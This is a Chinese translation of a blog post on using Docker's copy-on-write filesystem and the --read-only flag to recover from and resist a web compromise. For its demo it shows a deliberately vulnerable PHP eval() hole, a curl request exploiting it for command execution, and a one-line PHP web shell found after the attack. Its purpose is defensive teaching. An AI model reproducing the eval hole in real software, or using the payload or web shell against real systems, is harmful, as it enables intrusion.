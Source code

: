 使用不可变基础设施增加攻击者的成本
========================================

Docker容器的一个独到之处它实时上是不可变的。 Docker附带一个写时拷贝文件系统，这意味着基础镜像不能被修改，除非你明确地发布一个commit指令。

这么做的原因之一是，可以很容易检查偏移，如果你在调查一个安全事故，这可能会派上用场。

#### 1. Demo
--------------------------

以下面的Demo为例：

![](Security-diagrams.png)

我们的前端运行着一个[PHP应用程序](https://github.com/diogomonica/apachehackdemo)，还有一个MySQL服务器作为后端数据库。 你可以跟着操作，尝试运行下面的代码：

```bash
docker run -d --name db -e MYSQL_ROOT_PASSWORD=insecurepwd mariadb
docker run -d -p 80:80 --link db:db diogomonica/phphack
```

现在你有数据库和前端的运行，你应该会收到像下面这样的问候：

![](welcome.png)

不幸的是，与其他PHP应用程序不同，这个应用程序有一个远程代码执行漏洞：

```php
if($links) {  
	<h3>Links found</h3>  
	... 
	eval($_GET['shell']);  
?>
```

这像是一个人在不应该的地方使用了*eval*！任何的攻击者可以利用这个漏洞，并且在远端的主机上执行任意的命令：

```bash
 curl -s http://localhost/\?shell\=system\("id"\)\; | grep "uid=" uid=33(www-data) gid=33(www-data) groups=33(www-data)  
```

任何攻击者对最近被攻击的主机的第一个动作是通过下载PHP shell和工具包使自己更无拘无束。 有些攻击者甚至可能会重新设计您的网站：

![](hacked.png)

#### 2. 从非法入侵中恢复
----------------------------

回到不可变性，写时拷贝文件系统提供的一个很酷的事情是能够看到发生的所有更改。通过使用*docker diff*指令，我们可以看到攻击者在文件方面所做修改：

```bash
docker diff pensive_meitner
C /run  
C /run/apache2  
A /run/apache2/apache2.pid  
C /run/lock  
C /run/lock/apache2  
C /var  
C /var/www  
C /var/www/html  
C /var/www/html/index.html  
A /var/www/html/shell.php  
```

有趣的是，攻击者不仅修改*index.html*，也下载了php-shell，为了方便命名为*shell.php*。但我们的重点应该是让网站重新上线。

为了方便之后引用，我们可以通过*docker commit*储存这个镜像，既然容器是不可变的(🎉)，我们可以重启我们的容器，重新上线：

```bash
docker commit pensive_meitner
sha256:ebc3cb7c3a312696e3fd492d0c384fe18550ef99af5244f0fa6d692b09fd0af3  

docker kill pensive_meitner

docker run -d -p 80:80 --link db:db diogomonica/phphack
```

从新访问：

![](backinbiz.png)

现在我们可以回到那张保存的图像，看看攻击者修改了什么：

```bash
docker run -it ebc3cb7c3a312696e3fd492d0c384fe18550ef99af5244f0fa6d692b09fd0af3 sh
# cat index.html
<blink>HACKED BY SUPER ELITE GROUP OF HACKERS</blink>  

# cat shell.php
<?php  
eval($_GET['cmd']);  
?>
```

看起来我们刚刚被著名的SUPER ELITE GROUP OF HACKERS入侵了。¯\(ツ)/¯


#### 3. 增加攻击者的成本
----------------------------------

能看到攻击后的容器里的改变固然重要，但是如果我们在最开始就可以避免攻击会怎么样呢？这就是*-read-only*出现的地方。

*-read-only*标志指示Docker不允许对容器的文件系统进行任何写入。这将避免对*index.php*的任何修改，但更重要的是，它不会允许攻击者下载php shell或其他任何攻击者想使用的有用工具。

让我们试一下，看看会发生什么：

```bash
docker run -p 80:80 --link db:db -v /tmp/apache2:/var/run/apache2/ -v /tmp/apache:/var/lock/apache2/ --sig-proxy=false --read-only diogomonica/phphack
...

172.17.0.1 - - [04/Sep/2016:03:59:06 +0000] "GET / HTTP/1.1" 200 219518 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.82 Safari/537.36 OPR/39.0.2256.48"  

sh: 1: cannot create index.html: Read-only file system  
```

鉴于我们的文件系统现在是只读的，似乎攻击者试图修改我们的*index.html*失败了。

#### 4. 这是没有缺陷的吗？
----------------------------

不，绝对不是。 直到我们修复这个RCE漏洞，攻击者仍然能够在我们的主机上执行代码，窃取我们的凭据，并且泄漏我们的数据库中的数据。

这里讲的是，连同运行最小的镜像和一些其他很酷的Docker安全功能，你可以使任何攻击者更难以维护持久性，更难继续乱改你的网络。

#### 5. 总结
------------------------------

我们的应用程序的安全性永远不会是完美的，但是具有不可变的基础设施有助于故障响应，允许快速恢复，并使攻击者的工作更难。

如果通过使用一个强大的沙箱，调整一些旋钮，你就可以使你的应用程序更安全，为什么不呢？



#### 6. 参考文献
------------------------------

原文链接：https://diogomonica.com/2016/11/19/increasing-attacker-cost-using-immutable-infrastructure/?from=groupmessage

作者：Diogo Mónica

